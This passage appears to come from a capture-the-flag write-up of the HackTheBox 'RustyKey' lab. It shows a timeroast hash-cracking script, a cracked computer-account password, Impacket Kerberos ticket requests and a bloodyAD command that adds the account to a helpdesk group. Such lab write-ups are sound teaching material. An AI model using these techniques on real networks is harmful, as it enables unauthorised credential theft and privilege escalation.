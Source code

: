 ```bash
        yield rid, password

def main():
  argparser = ArgumentParser(formatter_class=RawDescriptionHelpFormatter, description=\
"""Perform a simple dictionary attack against the output of timeroast.py.""")
  argparser.add_argument('hashes', type=FileType('r'), help='Output of timeroast.py')
  # FIX: Use latin-1 encoding for dictionary
  argparser.add_argument('dictionary', type=lambda f: open(f, encoding='latin-1'), 
                        help='Line-delimited password dictionary')
  args = argparser.parse_args()
  
  crackcount = 0
  for rid, password in try_crack(args.hashes, args.dictionary):
    print(f'[+] Cracked RID {rid} password: {password}')
    crackcount += 1
  print(f'\n{crackcount} passwords recovered.')

if __name__ == '__main__':
  main()
```

Fix with by using `latin-1` encoding for dictionary.

```bash
└─$ python3 timecrack.py timeroast_hash.txt /usr/share/wordlists/rockyou.txt
[+] Cracked RID 1125 password: Rusty88!

1 passwords recovered.
```

Boom, we got the passowrd for `IT-COMPUTER3` computer account. <br>
&rarr; `IT-COMPUTER3$:Rusty88!`

From the bloodhound result that we gather earlier, we just grab the `IT-COMPUTER3` computer account. Now we will leverage to **AddSelf** to `HELPDESK@RUSTYKEY.HTB` group. <br>
Before adding, we need to request **Ticket Granting Ticket** for `IT-COMPUTER3` computer account.

```bash
└─$ getTGT.py -dc-ip 10.129.4.62 'rustykey.htb/IT-COMPUTER3$:Rusty88!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in IT-COMPUTER3$.ccache
```

Activate the ticket.

```bash
└─$ export KRB5CCNAME=IT-COMPUTER3$.ccache
```

Let's add it.

```bash
└─$ bloodyAD --host dc.rustykey.htb -d rustykey.htb -k -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember 'HELPDESK' 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```
